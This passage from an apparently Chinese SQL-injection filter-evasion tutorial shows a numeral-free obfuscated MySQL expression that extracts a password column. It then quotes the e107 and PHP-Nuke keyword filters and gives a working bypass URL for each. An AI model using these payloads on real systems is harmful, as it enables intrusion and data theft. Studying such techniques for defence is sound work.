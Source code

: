 从前面到现在基本上每条注入语句中都有数字如果某查询的数据类型为字符串、或者做了严格限制数字要被和谐掉这就有点棘手了不过办法总是有的

<iframe id="iframe_0.5752344334032387" src="https://www.cnblogs.com/show-blocking-image.aspx?url=http%3A%2F%2Fstatic.wooyun.org%2F201402%2F2014022614064414576.png&amp;maxWidth=978&amp;origin=http://www.cnblogs.com&amp;iframeId=iframe_0.5752344334032387" width="300" height="447" frameborder="0" scrolling="no"></iframe>

<iframe id="iframe_0.3846845580264926" src="https://www.cnblogs.com/show-blocking-image.aspx?url=http%3A%2F%2Fstatic.wooyun.org%2F201402%2F2014022614071092308.png&amp;maxWidth=978&amp;origin=http://www.cnblogs.com&amp;iframeId=iframe_0.3846845580264926" width="300" height="504" frameborder="0" scrolling="no"></iframe>

上面两张图第一张是不能使用数字时通过使用数学函数得到某个数字的值第二张则是这些数字对应的36进制的值因此有时候一个很简单的表达式可能会很复杂或者非常长其实际就是计算mod(a,b)
<pre class="highlight">(mod(length(trim(leading(concat(lower(conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(), pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi())),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(),pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*version())+true,pi()*pi(),pow(pi(), pi()))),lower(conv(ceil((pi()+ceil(pi()))*pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi())*ceil(pi()+pi()),pi()*pi(),pow(pi(),pi()))),conv(ceil(pi()*version()),pi()*pi(),pow(pi(),pi())),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(version()*version()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi())))))from(pass))),length(pass))
</pre>

## 0x04 延伸及测试向量示例

* * *

<pre class="highlight">a) CMS绕过实例
b) WAF绕过示例
c) SQLi Filter Evasion Cheat sheet
d) 测试向量
</pre>

### a) Web应用绕过示例

#### 1\. e107 CMS

<pre class="highlight">$inArray = array("'", ";", "/**/", "/UNION/", "/SELECT/", "AS "); 
if (strpos($_SERVER['PHP_SELF'], "trackback") === false) { 
foreach($inArray as $res) { 
if(stristr($_SERVER['QUERY_STRING'], $res)) { 
die("Access denied."); 
}}}
</pre>
Bypass:
<pre class="highlight">vuln.php/trackback?inject=UNI%6fN SELECT
</pre>

#### 2. PHP-Nuke CMS

<pre class="highlight">if(isset($_SERVER['QUERY_STRING']) 
&amp;&amp; (!stripos($_SERVER['QUERY_STRING'], "ad_click"))) { 
$queryString = $_SERVER['QUERY_STRING']; 
if ( stripos($queryString, '%20union%20') 
OR stripos($queryString, '/*') 
OR stripos($queryString, '*/union/*') 
OR stripos($queryString, '+union+') 
OR stripos($queryString, 'concat')) { die('Illegal Operation'); }
</pre>
Bypass:
<pre class="highlight">vuln.php?inject=%a0UNI%6fN(SELECT'ad_click'
</pre>
